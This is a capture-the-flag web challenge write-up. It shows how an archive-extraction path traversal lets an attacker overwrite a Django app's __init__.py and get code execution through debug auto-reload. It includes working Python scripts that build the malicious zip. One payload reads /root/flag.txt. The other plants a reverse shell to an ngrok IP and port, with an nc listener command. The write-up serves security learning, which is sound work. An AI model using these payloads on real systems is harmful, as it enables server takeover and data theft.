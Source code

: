 # Bumblebee (491 Points - Web - 31 Solves)

## GET INFO

This is home page. We can upload the zip file with file extension ".flower". Web server will extract that.

+ ![](./img/home.png)

When we upload another file with file extension ".flower" (not zip file), web server will show debug page.

+ ![](./img/debug_page_1.png)

+ ![](./img/debug_page_2.png)

+ ![](./img/debug_page_3.png)

We can see something interesting here. The BASE_DIR is "/usr/src/app" and the app in "/usr/src/app/bumblebee"

Something else?

+ ![](./img/debug.png)

DEBUG is True, so when something change in "/usr/src/app/bumblebee". Web server will reload with new code.

## Idea

The Idea is we upload the zip file, which has ```__init__.py``` into. And when web server extract the zip file. ```__init__.py``` will extract into "/usr/src/app/bumblebee"

## Coding timeee

```py
import zipfile
# with that name file, when it has extracted, __init__.py would be in "usr/src/app/bumblebee"
z_info = zipfile.ZipInfo(r"../../../../../../usr/src/app/bumblebee/__init__.py")
z_file = zipfile.ZipFile("payload.flower", mode="w")

z_file.writestr(z_info, """
import os
dir = os.popen('cat /root/flag.txt').read()
open("/tmp/nectar/flag.txt", "w").write(dir)
""") # This code will copy the file in /root/flag.txt and write in /tmp/nectar
# that code for change mode the __init__.py file
z_info.external_attr = 0777 << 16L
z_file.close()
```

## Exploit

Now, we will upload file payload.flower and wait a few minuter.

+ ![](./img/uploaded.png)

We can see flag in http://challenge.ctf.games:30366/nectar/

+ ![](./img/flag_1.png)

+ ![](./img/flag_2.png)

<!-- ------------------------------------------------------------------ -->
<br>
<br>

# Extension: We can reverse shell this server

## GET PUBLIC IP

- First, we open port 6969 ngrok with protocol tcp

+ ![](./img/ngrok.png)

- Use nslookup to see our ip.

+ ![](./img/your_ip.png)

- Now, MY_IP is ```3.19.130.43``` and MY_PORT is ```11799```

- Use  ```nc -lvnp 6969``` to be able to receive the reverse shell. Remenber, we open port ```6969``` in my computer to receive, not ```11799```.

## Coding time againnn

```py
import zipfile
# with that name file, when it has extracted, __init__.py would be in "usr/src/app/bumblebee"
z_info = zipfile.ZipInfo(r"../../../../../../usr/src/app/bumblebee/__init__.py")
z_file = zipfile.ZipFile("payload.flower", mode="w")
z_file.writestr(z_info, """
import os,pty,socket;s=socket.socket();s.connect(("3.19.130.43",11799));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
""") # This code will excute reverse shell
# that code for change mode the __init__.py file
z_info.external_attr = 0777 << 16L
z_file.close()
```

## Exploit

+ ![](./img/reverse_shell.png)

## Find flag

+ ![](./img/find_flag.png)


Ref: https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution

By: nghialuffy